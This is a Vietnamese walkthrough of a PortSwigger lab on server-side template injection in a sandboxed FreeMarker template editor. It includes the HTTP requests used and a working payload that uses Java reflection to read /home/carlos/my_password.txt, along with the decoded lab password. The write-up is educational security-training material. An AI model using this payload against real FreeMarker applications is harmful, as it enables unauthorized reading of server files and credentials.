

# Write-up: Server-side template injection in a sandboxed environment

### Tổng quan
Khai thác lỗ hổng **Server-Side Template Injection (SSTI)** trong ứng dụng web sử dụng template engine FreeMarker trong môi trường sandbox. Bằng cách sử dụng payload FreeMarker để truy cập lớp Java và đọc file `/home/carlos/my_password.txt`, kẻ tấn công lấy được mật khẩu dưới dạng mã ASCII, chuyển đổi thành chuỗi `k4i2oz710qlriz7272up`, và nộp giải pháp để hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng **SSTI** trong template FreeMarker, đọc nội dung file `/home/carlos/my_password.txt`, chuyển đổi mã ASCII thành mật khẩu, và nộp giải pháp để hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**  
- Đăng nhập với tài khoản `content-manager:C0nt3ntM4n4g3r`:  
  ```
  POST /login HTTP/2
  Host: 0aj9017r18st9012n0op167800qr00on.web-security-academy.net
  Content-Type: application/x-www-form-urlencoded

  username=content-manager&password=C0nt3ntM4n4g3r
  ```  
- Truy cập chức năng chỉnh sửa template, quan sát thấy ứng dụng sử dụng cú pháp FreeMarker `${product.price}` để render thông tin sản phẩm:  
    

2. **Khai thác để đọc file `/home/carlos/my_password.txt`**  
- Dựa trên tài liệu FreeMarker và Java, tạo payload để đọc file trong môi trường sandbox:  
  ```
  POST /template/edit HTTP/2
  Host: 0aj9017r18st9012n0op167800qr00on.web-security-academy.net
  Cookie: session=...
  Content-Type: application/x-www-form-urlencoded

  template=${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
  ```  
- Kết quả: Server trả về nội dung file `/home/carlos/my_password.txt` dưới dạng mã ASCII:  
  ```
  107 52 105 50 111 122 55 49 48 113 108 114 105 122 55 50 55 50 117 112
  ```  
- Chuyển đổi mã ASCII sang chuỗi:  
  - 107 → k, 52 → 4, 105 → i, 50 → 2, 111 → o, 122 → z, 55 → 7, 49 → 1, 48 → 0, 113 → q, 108 → l, 114 → r, 105 → i, 122 → z, 55 → 7, 50 → 2, 55 → 7, 50 → 2, 117 → u, 112 → p  
  - Kết quả: `k4i2oz710qlriz7272up`  
    

3. **Hoàn thành lab**  
- Nộp mật khẩu `k4i2oz710qlriz7272up` vào phần **Submit solution** của lab:  
  ```
  POST /submitSolution HTTP/2
  Host: 0aj9017r18st9012n0op167800qr00on.web-security-academy.net
  Content-Type: application/x-www-form-urlencoded

  solution=k4i2oz710qlriz7272up
  ```  
- Kết quả: Lab xác nhận hoàn thành:  
    

- **Ý tưởng payload**:  
  - Sử dụng SSTI trong FreeMarker để truy cập lớp Java, đọc file `/home/carlos/my_password.txt` dưới dạng mã ASCII, chuyển đổi thành chuỗi và nộp giải pháp.  

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng **Server-Side Template Injection** trong FreeMarker, sử dụng các phương thức Java để đọc file hệ thống trong môi trường sandbox.  
- Nhận thức tầm quan trọng của việc cấu hình sandbox chặt chẽ, lọc đầu vào người dùng trong template engine, và vô hiệu hóa truy cập các lớp Java nhạy cảm để ngăn chặn rò rỉ thông tin.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác **Server-Side Template Injection** trong FreeMarker trong môi trường sandbox, nhấn mạnh tầm quan trọng của việc cấu hình sandbox và lọc đầu vào để ngăn chặn đọc file trái phép. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 9/2025.*